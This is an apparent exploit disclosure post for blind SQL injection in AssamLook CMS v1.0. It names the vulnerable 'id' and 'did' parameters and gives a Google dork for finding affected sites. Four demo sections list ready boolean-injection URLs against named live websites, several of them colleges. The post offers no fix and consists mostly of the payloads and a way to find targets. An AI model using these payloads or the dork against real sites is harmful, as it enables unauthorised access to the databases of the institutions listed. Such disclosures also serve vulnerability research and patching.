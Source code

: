 ## Exploit Title: AssamLook CMS - Blind SQL Injection Vulnerabilities



Vender: https://assamlook.com/

Software: AssamLook CMS v1.0

Google Dork: intext:"Powered By Assamlook.com"

Category: WebApps

Tested On: Windows, Firefox

*********************************************************

[+] Vulnerable Parameter: `id` or `did` in URLs with `.php?id=` or `.php?did=`

*********************************************************

### Demo 1:
https://rhinoprintopacks.com/product.php?id=53' and 1=1--+  
https://rhinoprintopacks.com/product.php?id=53' and 1=2--+  

### Demo 2:
https://www.nonoicollege.in/department-profile.php?did=1' and 1=1--+  
https://www.nonoicollege.in/department-profile.php?did=1' and 1=2--+  

### Demo 3:
https://rahacollege.co.in/department-profile.php?did=3' and 1=1--+  
https://rahacollege.co.in/department-profile.php?did=3' and 1=2--+  

### Demo 4:
https://www.lumdingcollege.org/view_tender.php?id=108' and 1=1--+  
https://www.lumdingcollege.org/view_tender.php?id=108' and 1=2--+  

*********************************************************

[+] Google Dork:
intext:"Powered By Assamlook.com"

*********************************************************
# Discovered by: AmirHossein Abdollahi | Mr_Amir_Typer